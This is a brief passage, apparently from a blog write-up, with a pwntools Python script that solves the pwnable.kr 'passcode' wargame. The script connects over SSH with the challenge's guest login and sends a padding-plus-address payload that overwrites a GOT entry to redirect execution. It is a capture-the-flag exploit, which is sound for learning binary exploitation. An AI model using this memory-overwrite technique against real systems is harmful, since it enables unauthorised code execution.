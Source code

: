 -------------------------------------------------------
### pwntools

![20]({{"/assets/img/security/pwnable/5/20.png" | absolute_url}})


{% highlight python %}
from pwn import *
 
id   = 'passcode'
host = 'pwnable.kr'
port = 2222
pw   = 'guest'
 
s = ssh(id, host, port=port, password=pw)
 
p = 0x0804a004
 
payload = 'A'*96 + p32(p)
 
res = s.run('./passcode')
 
res.sendline(payload)
 
res.sendline('134514135')
 
print res.recvall()
 
s.close()
{% endhighlight %}
